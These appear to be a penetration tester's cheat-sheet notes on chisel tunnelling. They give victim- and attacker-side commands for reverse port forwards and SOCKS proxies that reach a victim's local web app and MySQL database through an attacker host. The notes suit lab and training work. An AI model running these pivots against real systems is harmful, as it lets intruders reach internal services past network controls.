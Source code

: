 https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/

In case you get library errors, use chisel_1.7.4 (legacy)

NOTE: If you run chisel in a reverse shell and if you exit out of the shell, chisel will STAY running.
	so if we need to free a port, you can do so
#### Usage

Port Forward
```bash
# Victim
chisel server -p <listen-port>

# Attacker
chisel client <listen-ip>:<listen-port> <local-port>:<target-ip>:<target-port>

```

Reverse Port Forward (THE GOAT)
```bash
# Attacker
chisel server -p 9999 --reverse

# Victim
chisel client <attacker_ip>:9999 R:8090:172.16.22.2:8000

```

Forward Dynamic SOCKS proxy
```bash
# /etc/proxychains.conf
...SNIP...
socks5 127.0.0.1  8000

# Victim
chisel server -p 9999 --socks5

# Attacker
chisel client <victim_ip>:9999 8000:socks
```

Reverse Dynamic SOCKS Proxy
```bash
# /etc/proxychains.conf
...SNIP...
socks5 127.0.0.1  8000

# Attacker
chisel server -p 9999 --reverse --socks5

# Victim
chisel client <attacker_ip>:9999 R:socks
```

#### Examples
```
# NOTE
IF SOCKS FAILS, TRY STATIC PORT FORWARDING
```

Accessing a web app running locally on a victim box
	Reverse Dynamic Socks Proxy
		lets say victim has a web app running on port 8000 locally
		KALI
			`chisel server -p 8001 --socks5 --reverse
		Victim
			`chisel client <KALI_IP>:8001 R:socks
		Visit 127.0.0.1:8000 on via `proxychains firefox` on KALI
			may need to clear histor/cache etc
```
# Use a different port for the server than the port we want to attack!!!
```
-
	Reverse Port Forward (no SOCKS)
		KALI
			`chisel server -p 8001 --reverse
		Victim
			`chisel client <KALI_IP>:8001 R:8080:127.0.0.1:80
		Visit 127.0.0.1:8080 on kali and it will forward you to the victim localhost:80
			Note: the 8080 is arbitrary, we are just setting a random port that we will connect to FROM our KALI box

Accessing a MySQL db running on a victim box
	Forward Dynamic Port forward
		Victim
			`chisel.exe server -p 9001 --socks5
		Kali
			`chisel client <Victim_IP>:9001 <proxychains_socks_port>:socks
			edit /etc/proxychains
		Connect
			`proxychains mysql -h 127.0.0.1 -P 3306

#### Additional Information

Master
```bash
# Run a Chisel server:
chisel server                                                                       
# Run a Chisel server listening to a specific port:
chisel server -p server_port                                                                  
# Run a chisel server that accepts authenticated connections using username and password:
chisel server --auth username:password                                                             
# Connect to a Chisel server and tunnel a specific port to a remote server and port:
chisel client server_ip:server_port local_port:remote_server:remote_port                                                                   
# Connect to a Chisel server and tunnel a specific host and port to a remote server and port:
chisel client server_ip:server_port local_host:local_port:remote_server:remote_port    

# Connect to a Chisel server using username and password authentication:
chisel client --auth username:password server_ip:server_port local_port:remote_server:remote_port      

# Initialize a Chisel server in reverse mode on a specific port, also enabling SOCKS5 proxy (on port 1080) functionality:
chisel server -p server_port --reverse --socks5                                                                  
# Connect to a Chisel server at specific IP and port, creating a reverse tunnel mapped to a local SOCKS proxy:
chisel client server_ip:server_port R:socks
```

